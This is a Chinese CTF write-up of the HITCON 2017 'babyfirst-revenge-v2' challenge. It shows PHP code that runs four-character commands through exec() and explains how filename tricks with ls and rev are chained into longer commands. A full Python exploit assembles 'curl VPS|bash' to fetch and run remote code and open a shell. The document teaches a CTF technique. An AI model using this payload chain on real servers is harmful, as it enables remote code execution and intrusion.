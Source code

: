 # baby-first-revenge-v2
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

在 babyfirst-revenge 的基础上加大了难度，字符被限制在了 4 个以内。

这样 `ls>>c` 就无法实现，`ls -t>g` 也就无法生成。

## 反转字符串
这里就有另一个思路，因为 ls 的按字典顺序排序，由于符号(`- >`)在字母之前，才导致需要 `>>` 附加到文件尾部才能生成正确的 `ls -t>g` 命令，那么我们尝试将分段的文件名 `ls -t >g` 逆向生成，使得字母在前面，比如`g> t- sl`，之后再利用 `rev` 命令反转过来，得到正确的 `ls -t>g` 命令。

又由于 t 在 s 的后面，直接这样生成会导致排序出错，实际生成这样的命令 `g> sl t-`，因此可以加入 `h` 参数，`h` 是用作格式化 `l` 参数之后的存储量大小，不带 `l` 参数则无意义，这里的作用就是使得 `ht-` 能在 `sl` 之前，顺利生成 `g> -th sl` 命令。

## * 的作用
`*` 相当于 `$(ls *)`，所以如果列出的第一个文件名为命令的话就会返回执行的结果，之后的作为参数传入。

我们先引入 `dir` 命令，该命令在大多数系统中都是 ls 的 alias。

因此，我们可以在当前目录下生成，`g>` `-th` `sl` `dir` 文件，通过 `*>g`（实际结果就是 `dir>g`），这里用 `dir` 而不是 `ls` 则是由于字典顺序的问题，这样 `dir` 在 `*` 命令执行后才是第一个被执行的命令，因此就能产生 `ls -ht > g` 的逆序文件

然后执行 `>rev` ，`*v` 会匹配到 `rev v`，执行后则得到正序的 `ls -ht>g`。

之后的步骤则跟 babyfirst-revenge 一样了。

exp(by Orange):

```Python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir',
    '>sl',
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate `curl VPS|bash`
    # * 为隐去的 VPS ip 地址十进制的某位
    '>\;\\',
    '>sh\\',
    '>ba\\',
    '>\|\\',
    '>2\\',
    '>1*\\',
    '>8*\\',
    '>5*\\',
    '>7*\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    # got shell
    'sh x',
    'sh g',
]


r = requests.get('http://127.0.0.1:8009/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://127.0.0.1:8009/?cmd=' + quote(i))
    print(i)
    sleep(0.1)
```

## References
[HITCON 2017 babyfirst-revenge[-v2]浅析](https://xz.aliyun.com/t/1579)